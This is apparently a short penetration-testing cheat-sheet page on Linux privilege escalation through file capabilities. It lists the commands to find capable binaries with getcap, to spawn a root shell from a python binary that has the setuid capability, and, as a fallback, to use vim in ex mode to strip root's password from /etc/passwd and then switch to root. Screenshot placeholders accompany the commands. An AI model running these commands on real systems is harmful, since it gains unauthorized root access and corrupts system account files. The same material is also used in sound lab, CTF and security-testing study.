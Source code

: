 # capability

get system capability

```
 getcap -r / 2>/dev/null 
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
usr/bin/python2.6  -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

***

> try to edit on `/etc/passwd` if the first case not work

```
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd

su root
```

<figure><img src="../../../.gitbook/assets/image 2 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
